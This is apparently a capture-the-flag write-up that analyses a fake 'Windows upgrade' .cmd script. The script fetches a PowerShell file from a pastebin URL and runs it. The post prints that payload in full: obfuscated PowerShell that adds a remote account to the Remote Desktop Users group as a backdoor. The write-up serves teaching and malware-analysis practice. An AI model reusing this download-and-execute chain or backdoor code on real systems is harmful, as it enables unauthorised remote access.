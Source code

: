 +++
title = "Upgrading Windows - Writeup"
draft = false
ShowToc = false
author = ["connar"]
+++

In this test, we are given a ".cmd" script whose purpose is to upgrade the user's version of Windows. However, the user reports that not only did the script not work, but also observed strange activity on their computer. Let's analyze the file to see what we can find.  

![alt text](/posts/writeups/pmdk/upgradingwindows/upgradingWindows1.png)  


We observe that indeed the script contains a portion of code that attempts to upgrade the Windows version, but it fails because there is an exit command in the middle that terminates its execution. However, just before the exit command, it does something very suspicious:  
- It downloads content from the URL https://pastebin.com/raw/XMRy2Kp4 and saves it into a PowerShell file named safe.ps1.
- It then executes the newly created file.  

Therefore, we can easily assume that the next step is to analyze what exists at the URL from the link we discovered earlier. Visiting the [link](https://pastebin.com/raw/XMRy2Kp4), we find the following PowerShell code:  

```powershell
$computername = "DESKTOP-5570"

Invoke-Command -ComputerName $computername -ScriptBlock { 
    $computer = $env:COMPUTERNAME
    $domain = "105.10.10.34"
    $user = (("{22}{24}{8}{28}{33}{19}{6}{30}{20}{4}{15}{26}{5}{32}{18}{13}{12}{10}{3}{17}{9}{2}{1}{16}{23}{7}{27}{31}{29}{14}{21}{0}{11}{25}" -f '3','1n','3h','urc+','urc','c+urc3ll3d_7u','5_','u','FL','b','y','6s','3r','my5urc+urc7','rc1urc+urcp7}ur','v','d_7h15','urc_','3_','rc+urcngra7','0u_unr4urc+','c)','(ur','_','c',' iEx','ur','rc+urc5uurc','AG{C','crurc+u','Y','+urc5_5','rc+urch','0u')).REplAcE('urc',[striNg][ChAR]39).REplAcE(([ChAR]51+[ChAR]54+[ChAR]115),'|')|&( $VERboSePrEfeRENCE.ToSTrinG()[1,3]+'X'-JoiN'')
    $group = [ADSI]"WinNT://$computer/Remote Desktop Users,group"
    $group.psbase.Invoke("add",([ADSI]"WinNT://$domain/$user").Path) 
}
```


This code appears to be attempting to add a remote user to the victim's computer. The unusual part is the username it is trying to add, as it is not straightforward but is built using obfuscation techniques.  

While recovering the name may seem difficult, it is actually quite straightforward. All we need to do is copy that specific line and execute it inside a PowerShell terminal, as at the end of the command, it joins the total string, printing it to the screen.  

![alt text](/posts/writeups/pmdk/upgradingwindows/upgradingWindows2.png)  

And like this, we get the flag: ```FLAG{C0ngra75_Y0u_unr4v3ll3d_7h3_my573ry_b3h1nd_7h15_5u5_5cr1p7}```